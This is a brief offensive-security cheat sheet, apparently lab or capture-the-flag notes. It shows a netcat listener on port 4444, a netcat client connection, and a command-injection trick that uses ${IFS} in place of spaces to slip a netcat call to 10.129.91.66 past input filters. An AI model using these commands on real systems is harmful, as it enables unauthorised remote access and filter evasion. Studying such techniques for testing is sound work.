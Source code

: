 Set up a listener 

$nc -l -v -p 4444 

~set up the client payload  
$ nc -nv <server IP> 4444 

To take out white space inject 

${IFS} 

example 

$ nc${IFS}-nv${IFS}10.129.91.66${IFS}4444